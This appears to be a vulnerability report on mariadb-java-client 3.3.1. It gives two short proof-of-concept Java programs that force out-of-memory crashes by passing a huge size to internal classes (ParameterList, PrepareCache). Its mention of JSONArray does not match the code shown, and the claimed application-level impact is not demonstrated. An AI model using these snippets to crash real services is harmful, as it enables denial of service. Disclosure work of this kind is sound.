 When I test the latest version(3.3.1) of mariadb-java-client by CIFuzz，a OOM security issue was found, it caused when put a big number in JSONArray, may cause denial of service issues in applications via the follow code:

pom
```
<dependency>
   <groupId>org.mariadb.jdbc</groupId>
   <artifactId>mariadb-java-client</artifactId>
   <version>3.3.1</version>
</dependency>
```
code1
```
import org.mariadb.jdbc.util.ParameterList;

public class Mariadb_OOM {

    public static void main(String[] args) {
        try {
            ParameterList parameterList = new ParameterList();
            parameterList.set(1832742252, null);
        } catch (Exception e) {
        }
    }
}
```
![image](https://github.com/Alex111998/Vuln/assets/127834723/e716ba42-3eda-4601-8c0e-172604c20f50)

code2
```
import org.mariadb.jdbc.client.impl.PrepareCache;
import org.mariadb.jdbc.message.server.CachedPrepareResultPacket;

public class Mariadb_OOM {

    public static void main(String[] args) {
        try {
            PrepareCache prepareCache = new PrepareCache(1832742252, null);
            CachedPrepareResultPacket result = prepareCache.put("", null);
        } catch (Exception e) {
        }
    }
}
```

